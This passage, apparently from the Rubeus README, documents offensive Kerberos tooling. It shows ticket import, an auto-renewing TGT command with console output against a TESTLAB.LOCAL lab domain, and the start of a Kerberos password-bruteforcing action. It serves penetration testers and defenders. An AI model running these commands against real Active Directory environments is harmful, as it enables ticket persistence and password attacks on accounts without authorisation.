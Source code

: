         doIFmjCCBZagAwIBBaEDAgEWoo...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!


The `/autorenew` flag will take an existing `/ticket:X` .kirbi file/blob, sleep until endTime-30 minutes, auto-renew the ticket and display the refreshed ticket blob. It will continue this renewal process until the allowable renew-till renewal window passes.

    C:\Rubeus>Rubeus.exe renew /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip)... /autorenew

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.3.3

    [*] Action: Auto-Renew TGT


    [*] User       : dfm.a@TESTLAB.LOCAL
    [*] endtime    : 2/10/2019 11:44:09 PM
    [*] renew-till : 2/17/2019 6:44:09 PM
    [*] Sleeping for 263 minutes (endTime-30) before the next renewal
    [*] Renewing TGT for dfm.a@TESTLAB.LOCAL

    [*] Action: Renew TGT

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ renewal for: 'TESTLAB.LOCAL\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1506 bytes
    [*] Received 1510 bytes
    [+] TGT renewal request successful!
    [*] base64(ticket.kirbi):

          doIFmjCCBZagAwIBBaEDAgEWoo...(snip)...


### brute

The **brute** action will perform a Kerberos-based password bruteforcing attack.

    C:\Rubeus>Rubeus.exe brute /password:Password123!! /noticket

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
